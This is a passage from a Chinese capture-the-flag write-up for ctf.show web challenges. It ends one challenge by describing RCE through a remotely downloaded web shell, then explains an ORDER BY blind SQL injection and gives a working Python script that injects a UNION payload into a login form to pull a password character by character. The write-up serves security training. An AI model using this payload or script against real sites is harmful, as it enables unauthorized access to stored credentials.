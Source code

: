 然后最后就是访问`/shell.php`就可以实现RCE

![image-20220701212337063](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/image-20220701212337063.png)



总结：核心思想

有exec命令执行无回显，加上字符限制，我们就利用远程下载服务器上的shell，从而执行shell，达到RCE

如何在本地服务器指定端口开启服务，并创建文件？

解决80端口上被占用的情况？

https://cloud.tencent.com/developer/article/1869204

##  web691

考点：SQL注入中的order by盲注

前提：order by 和union select没有过滤

参考文章：https://blog.csdn.net/miuzzx/article/details/104908543

首先通过order by能够猜测出一共有三列，那么可能是id,username,password 这三列，我们需要去盲注的就是第三列，所以按第三列来排序也就是order by 3。
下面这张图就比较容易感受出来了。当我们union的password列的值大于真正在表中存的password列的值时，那么联合查询结果中的第一行其实会显示真正在表中存的password这一列。

![image-20220701215842898](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/image-20220701215842898.png)



![image-20220701215855439](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/image-20220701215855439.png)



这两个图就可以判断password第一个值为`c`

直接上脚本：

```python
import requests
s=".0123456789:abcdefghijklmnopqrstuvwxyz{}~"
url="http://b87d804a-9711-47db-aabc-95d3ec5b35ee.challenge.ctf.show/"
flag=""
for i in range(1,50):
	print(i)
	for j in s:
		data={
		'username':"' or 1 union select 1,2,'{0}' order by 3#".format(flag+j),
		'password':'1'
	}
		r=requests.post(url,data=data)
		#print(data['username'])
		if("</code>admin" in r.text):#admin不行
			flag=flag+chr(ord(j)-1)
			print(flag)
			break

```
